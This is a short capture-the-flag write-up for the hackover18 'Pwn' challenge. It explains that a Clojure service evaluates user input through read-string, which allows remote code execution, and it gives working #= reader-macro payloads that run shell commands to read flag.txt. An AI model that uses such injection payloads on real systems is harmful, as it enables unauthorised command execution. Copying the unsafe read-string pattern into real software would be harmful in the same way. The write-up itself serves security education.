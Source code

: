 # Pwn (reverse, 477p, 13 solved)

A high level pwnable challenge for which we get [source code](main.clj) in Clojure/LISP.

Interestingly the challenge is very similar to task from Insomnihack few years back, which was written in LISP -> https://github.com/p4-team/ctf/tree/master/2016-03-18-insomnihack-final/misc_robots

The only important part is:

```lisp
  (try
    (-> (read-line)
        (read-string))
    (println "Good job, you know how to balance brackets. Now go, get the flag.")
    (catch Exception e
      (println "You need to work on your balancing skills."))))
```

The point is that input read by `read-string` is actually automatically evaluated as LISP code (a bit like `input()` function did in Python 2)!
This is how the "parenthesis checker" works here - by evaluating the input.
This means we can execute any valid Clojure code, which means we've got RCE here!

We can confirm this by sending `#=(println "test")` which gives us back echo.
Now we can simply invoke shell commands with `#=(clojure.java.shell/sh "cat" "flag.txt")` and if we combine this we get `#=(println #=(clojure.java.shell/sh "cat" "flag.txt"))` and server prints the flag for us: `hackover18{n3v3r_tru5s7_u53r_1npu7}`
